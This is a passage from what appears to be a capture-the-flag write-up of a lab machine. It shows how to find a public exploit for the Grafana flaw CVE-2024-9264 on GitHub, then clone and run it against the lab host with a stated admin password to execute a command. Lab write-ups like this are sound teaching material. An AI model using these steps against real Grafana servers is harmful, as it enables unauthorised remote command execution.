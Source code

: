 <figure><img src=".gitbook/assets/image (41).png" alt=""><figcaption></figcaption></figure>

## Gaining Access / Exploitation

Let's find any public exploit method / script for this CVE. We can just google it directly or lookup to any common platform like ExploitDB and Github. After a bit of googling, I found an exploit script on Github \[[CVE-2024-9264](https://github.com/nollium/CVE-2024-9264)]. We can clone it into our attack machine and leverage the script on our target

```
git clone https://github.com/nollium/CVE-2024-9264.git CVE-2024-9264
cd CVE-2024-9264
pip install -r requirements.txt # Enable py virtual env if needed
python3 CVE-2024-9264.py -u admin -p '0D5oT70Fq13EvB5r' -c whoami http://grafana.planning.htb
```
